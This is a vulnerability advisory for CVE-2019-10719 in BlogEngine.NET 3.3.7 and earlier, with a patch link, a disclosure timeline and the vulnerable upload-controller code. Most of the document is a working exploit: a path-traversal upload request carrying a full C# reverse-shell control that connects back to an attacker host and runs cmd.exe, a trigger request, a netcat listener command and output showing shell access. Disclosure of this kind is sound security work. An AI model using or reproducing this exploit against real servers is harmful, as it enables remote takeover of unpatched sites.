 A remote code execution (RCE) vulnerability, **CVE-2019-10719**, was discovered in BlogEngine 3.3.7 and earlier.  Leveraging a path traversal in `/api/upload`, a malicious file could be written to a directory which would allow it to be accessed and executed.  **Edit post** permissions are required to upload the shell.  Anyone can trigger the shell without authentication.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* 30 Mar 2019 - Issue Identified
* 31 Mar 2019 - Developer contacted
* 04 Apr 2019 - Details of vulnerability sent
* 17 Jun 2019 - Public Disclosure

## Description

BlogEngine.NET allows users to upload files through the `/api/upload` endpoint.  Files uploaded using **file**, **filemgr**, or **image** as the `action` ultimately call `BlogService.UploadFile` and create the file:

~~~{command="BlogEngine/BlogEngine.NET/AppCode/Api/UploadController.cs"}
if (action == "filemgr" || action == "file")
{
    string[] ImageExtensnios = { ".jpg", ".png", ".jpeg", ".tiff", ".gif", ".bmp" };

    if (ImageExtensnios.Any(x => fileName.ToLower().Contains(x.ToLower())))
        action = "image";
    else
        action = "file";
}
...
if (action == "image")
{
    if (Security.IsAuthorizedTo(Rights.EditOwnPosts))
    {
        dir = BlogService.GetDirectory(dirName);
        var uploaded = BlogService.UploadFile(file.InputStream, fileName, dir, true);
        return Request.CreateResponse(HttpStatusCode.Created, uploaded.AsImage.ImageUrl);
    }
}
if (action == "file")
{
    if (Security.IsAuthorizedTo(Rights.EditOwnPosts))
    {
        dir = BlogService.GetDirectory(dirName);
        var uploaded = BlogService.UploadFile(file.InputStream, fileName, dir, true);
        retUrl = uploaded.FileDownloadPath + "|" + fileName + " (" + BytesToString(uploaded.FileSize) + ")";
        return Request.CreateResponse(HttpStatusCode.Created, retUrl);
    }
}
~~~

The **dirPath** parameter is used to specify a folder the file will be written to.  **dirPath** is vulnerable to directory traversal, allowing files to be written to any directory.  

A malicious `PostView.ascx` can be written to a sub-directory of **/Custom/Themes**, bypassing the fix for **CVE-2019-6714**.  If the folder does not exist, it will be created and contain the malicious `PostView.ascx`.

<pagebreak></pagebreak>

### Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10719/exploit.py>

The following will upload the file to **/Custom/Themes/RCE_Test**. **RCE_Test** will be created if it does not exist:

~~~
POST /api/upload?action=filemgr&dirPath=%2f..%2f..%2fCustom%2fThemes%2fRCE_Test HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/plain
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=Test
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------12143974373743678091868871063
Content-Length: 2085

-----------------------------12143974373743678091868871063
Content-Disposition: form-data; filename="PostView.ascx"

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;
    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);
	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("$LHOST", $LPORT)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
				StringBuilder strInput = new StringBuilder();
				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
    } } } } }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
	   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                   	streamWriter.WriteLine(strOutput);
                   	streamWriter.Flush();
			} catch (Exception err) { }
        }
    }
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

-----------------------------12143974373743678091868871063--
~~~

<pagebreak></pagebreak>

Open a `netcat` listener, `nc -nlvp $LPORT`, and browse to the application root with the **theme** set to RCE_Test.

~~~
GET /?theme=RCE_Test HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~{command="nc -nlvp $LPORT"}
listening on [any] $LPORT ...
connect to [$LHOST] from (UNKNOWN) [$RHOST] 49958
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
~~~
